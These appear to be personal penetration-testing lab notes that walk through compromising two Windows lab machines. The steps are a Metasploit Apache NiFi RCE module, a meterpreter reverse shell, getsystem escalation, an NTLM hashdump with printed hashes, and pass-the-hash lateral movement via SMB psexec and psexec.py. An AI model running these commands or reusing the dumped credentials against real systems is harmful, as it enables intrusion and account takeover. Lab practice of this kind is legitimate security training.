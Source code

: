 
# apache nifi
- vm1 - web server

1. `multi/http/apache_nifi_processor_rce`
this drops into a CMD shell as user `alex` 
2. upload a meterpreter reverse shell payload - built using msfvenom to the machine to get a meterpreter shell
3. `getsystem` to evelate to `system` account as `SeImpersonatePrivilege` is set for `alex` user
4. `hashdump`
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:b26462f877427f4f6a87605d587ac60d:::
alex:1002:aad3b435b51404eeaad3b435b51404ee:5391f1724568f48a4aadba748109864c:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
itwk04admin:1003:aad3b435b51404eeaad3b435b51404ee:445414c16b5689513d4ad8234391aacf:::
offsec:1001:aad3b435b51404eeaad3b435b51404ee:b26462f877427f4f6a87605d587ac60d:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:2cb4d723f9fce9b26d61be15e5ad1c51:::
```
5. find out which users have access to the other server smb with the same password
```msfconsole
use scanner/smb/smb_enumusers
set smbuser itwk04admin
set smbpass aad3b435b51404eeaad3b435b51404ee:445414c16b5689513d4ad8234391aacf
run

[+] 192.168.219.226:445   - ITWK04 [ DefaultAccount, Guest, itwk04admin, offsec, WDAGUtilityAccount ] ( LockoutTries=0 PasswordMin=0 )
[*] 192.168.219.226:      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
6. Use user `itwk04admin` to smb enumerate users on the other machine:
# smb
- vm2
#metasploit #smb #psexec
The following payload worked, but all others I tried failed:
`windows/shell/bind_tcp`

## Exploit
```msfconsole
use windows/smb/psexec
set rhosts 192.168.219.226
set SMBUser itwk04admin
set SMBPass aad3b435b51404eeaad3b435b51404ee:445414c16b5689513d4ad8234391aacf
set AutoRunScript post/windows/manage/migrate
set payload windows/shell/bind_tcp
run
```


## alternative approach
#psexec_py #psexec
This worked!!!
```sh
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:445414c16b5689513d4ad8234391aacf itwk04admin@192.168.219.226
```
